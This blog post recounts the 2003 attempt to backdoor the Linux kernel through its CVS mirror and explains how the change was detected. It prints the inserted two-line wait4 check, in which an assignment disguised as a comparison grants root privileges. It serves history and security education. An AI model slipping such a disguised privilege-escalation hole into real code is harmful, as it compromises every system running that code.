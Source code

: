 The Linux Backdoor Attempt of 2003
==================================

Josh [wrote][1] recently about a serious security bug that appeared in Debian Linux back in 2006, and whether it was really a backdoor inserted by the NSA. (He concluded that it probably was not.)

Today I want to write about another [incident][2], in 2003, in which someone tried to backdoor the Linux kernel. This one was definitely an attempt to insert a backdoor. But we don’t know who it was that made the attempt—and we probably never will.

Back in 2003 Linux used a system called BitKeeper to store the master copy of the Linux source code. If a developer wanted to propose a modification to the Linux code, they would submit their proposed change, and it would go through an organized approval process to decide whether the change would be accepted into the master code. Every change to the master code would come with a short explanation, which always included a pointer to the record of its approval.

But some people didn’t like BitKeeper, so a second copy of the source code was kept so that developers could get the code via another code system called CVS. The CVS copy of the code was a direct clone of the primary BitKeeper copy.

But on Nov. 5, 2003, Larry McVoy [noticed][3] that there was a code change in the CVS copy that did not have a pointer to a record of approval. Investigation showed that the change had never been approved and, stranger yet, that this change did not appear in the primary BitKeeper repository at all. Further investigation determined that someone had apparently broken in (electronically) to the CVS server and inserted this change.

What did the change do? This is where it gets really interesting. The change modified the code of a Linux function called wait4, which a program could use to wait for something to happen. Specifically, it added these two lines of code:

	if ((options == (__WCLONE|__WALL)) && (current->uid = 0))
        retval = -EINVAL;
        
[Exercise for readers who know the C programming language: What is unusual about this code? Answer appears below.]

A casual reading by an expert would interpret this as innocuous error-checking code to make wait4 return an error code when wait4 was called in a certain way that was forbidden by the documentation. But a really careful expert reader would notice that, near the end of the first line, it said “= 0” rather than “== 0”. The normal thing to write in code like this is “== 0”, which tests whether the user ID of the currently running code (current->uid) is equal to zero, without modifying the user ID. But what actually appears is “= 0”, which has the effect of setting the user ID to zero.

Setting the user ID to zero is a problem because user ID number zero is the “root” user, which is allowed to do absolutely anything it wants—to access all data, change the behavior of all code, and to compromise entirely the security of all parts of the system. So the effect of this code is to give root privileges to any piece of software that called wait4 in a particular way that is supposed to be invalid. In other words … it’s a classic backdoor.

This is a very clever piece of work. It looks like innocuous error checking, but it’s really a back door. And it was slipped into the code outside the normal approval process, to avoid any possibility that the approval process would notice what was up.

But the attempt didn’t work, because the Linux team was careful enough to notice that that this code was in the CVS repository without having gone through the normal approval process. Score one for Linux.

Could this have been an NSA attack? Maybe. But there were many others who had the skill and motivation to carry out this attack. Unless somebody confesses, or a smoking-gun document turns up, we’ll never know.

---

via: https://freedom-to-tinker.com/blog/felten/the-linux-backdoor-attempt-of-2003/

本文由 [LCTT][] 原创翻译，[Linux中国][] 荣誉推出

译者：[译者ID][] 校对：[校对者ID][]

[LCTT]:https://github.com/LCTT/TranslateProject
[Linux中国]:http://linux.cn/portal.php
[译者ID]:http://linux.cn/space/译者ID
[校对者ID]:http://linux.cn/space/校对者ID

[1]:https://freedom-to-tinker.com/blog/kroll/software-transparency-debian-openssl-bug/
[2]:https://lwn.net/Articles/57135/
[3]:https://lwn.net/Articles/57137/
